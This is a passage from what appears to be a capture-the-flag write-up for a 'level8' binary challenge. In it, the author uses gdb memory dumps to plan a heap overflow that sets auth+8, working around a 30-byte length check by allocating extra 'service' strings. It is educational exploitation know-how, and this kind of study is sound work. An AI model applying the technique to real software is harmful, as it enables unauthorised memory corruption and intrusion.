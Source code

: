     > (gdb) x/16x 0x0804a000
    0x804a000:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
    0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
    0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
    ```
    
10. Amazing, so we know that `auth` address is `0x0804a008`, and since we need to set `auth+8`, its address is `0x0804a028`, meaning that we need an overflow of `8 * 4 + 1 = 33`bytes.
The idea would be to provide more data from the input `auth`  , however, there is a guard which is limiting the copy to `30` bytes, so we can’t do it with the `auth` input.
    
    ```c
    if ( strlen(auth_cpy) <= 30 )
    ```
    
11. We know that `auth` is `malloc`ed, therefore, defined on the `heap`, so another way to set `auth+8` , could be to `malloc` more element until the destination is reached.
Inputing `auth`  again would `malloc` again, but it would also set `auth` pointer, so would not change anything to the issue.
The only other function using the `heap` that we have access to, is `strdup`, and we can call it by inputing `service`. The same `buffer` is used for all inputs, so any overflow would also overwrite `auth_cpy` (2 bytes) and `svc_dup`, but let’s try a single `service` first.
    
    ```bash
    > (gdb) r
    Starting program: /home/user/level8/level8 
    (nil), (nil) 
    auth 
    
    Breakpoint 1, 0x08048574 in main ()
    
    > (gdb) x/16x $sp
    0xbffff690:	0x0804a008	0xbffff6b5	0xb7fd1ac0	0xb7fd0ff4
    0xbffff6a0:	0xbffff6ee	0xbffff6ef	0x00000001	0xffffffff
    0xbffff6b0:	0x68747561	0xbf000a20	0x00000000	0xb7ff3fec
    0xbffff6c0:	0xbffff774	0x00000000	0x00000000	0xb7e5ec73
    > (gdb) x/16x 0x0804a000
    0x804a000:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
    0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
    0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
    
    > (gdb) c
    Continuing.
    0x804a008, (nil) 
    service
    
    Breakpoint 1, 0x08048574 in main ()
    
    > (gdb) x/16x $sp
    0xbffff690:	0xbffff6b7	0x00000080	0xb7fd1ac0	0xb7fd0ff4
    0xbffff6a0:	0xbffff6ee	0xbffff6ef	0x00000001	0xffffffff
    0xbffff6b0:	0x76726573	0x0a656369	0x00000000	0xb7ff3fec
    0xbffff6c0:	0xbffff774	0x00000000	0x00000000	0xb7e5ec73
    > (gdb) x/16x 0x0804a000
    0x804a000:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a010:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
    0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
    ```
    